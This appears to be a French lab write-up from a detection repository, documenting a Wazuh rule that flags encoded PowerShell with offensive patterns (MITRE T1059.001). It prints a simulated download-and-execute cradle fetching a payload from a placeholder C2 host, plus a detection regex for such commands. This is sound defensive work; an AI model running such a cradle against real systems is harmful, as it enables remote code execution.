

# Détection T1059.001 — PowerShell encodé avec pattern offensif

**Agent :** WIN-VICTIME | **Manager :** SIEM-WAZUH | **Règle custom :** 100100 (niveau 13)

---

## Contexte

T1059.001 couvre l'exécution de scripts PowerShell, notamment les variantes encodées en
Base64 ou faisant appel à des primitives de téléchargement (`DownloadString`, `IEX`).
Ce vecteur est très fréquent en phase initiale d'attaque et en post-compromission car il
contourne les restrictions sur les scripts `.ps1` signés.

---

## Commande simulée

```powershell
# Variante 1 : commande encodée Base64
powershell.exe -enc <Base64Payload>

# Variante 2 : download + exécution en mémoire
IEX (New-Object Net.WebClient).DownloadString('http://<C2>/payload.ps1')
```

---

## Détection

### Règle Wazuh native — 92057

Sysmon (Event ID 1 — Process Create) capture la ligne de commande complète de chaque
processus. La règle 92057 de Wazuh déclenche sur les arguments suspects de PowerShell
(`-enc`, `-encodedcommand`, etc.).

### Règle custom — 100100 (niveau 13)

La règle 100100 superpose un filtre PCRE2 sur les patterns offensifs réels
(`downloadstring`, `invoke-expression`, `iex`, `frombase64`). Elle ne se déclenche que
si la règle 92057 a déjà matché, ce qui réduit les faux positifs :

```xml
<rule id="100100" level="13">
  <if_sid>92057</if_sid>
  <field name="win.eventdata.commandLine" type="pcre2">
    (?i)(downloadstring|invoke-expression|iex|frombase64)
  </field>
  <description>PowerShell encodé AVEC pattern offensif — forte suspicion (T1059.001)</description>
  <mitre>
    <id>T1059.001</id>
  </mitre>
</rule>
```

**Niveau 13** → action immédiate recommandée.

---

## Capture



---

## Faux positifs

Aucun faux positif identifié sur ce motif en conditions de lab. En production, surveiller :

- Scripts d'administration légitimes utilisant `Invoke-Expression` (SCCM, Chocolatey)
- Déploiements logiciels via PowerShell encodé par des outils de packaging

Si nécessaire, ajouter une règle `level="0"` ciblant l'utilisateur ou le chemin d'exécution
connu comme bénin. Documenter chaque exception dans [tuning/README.md](../../tuning/README.md).
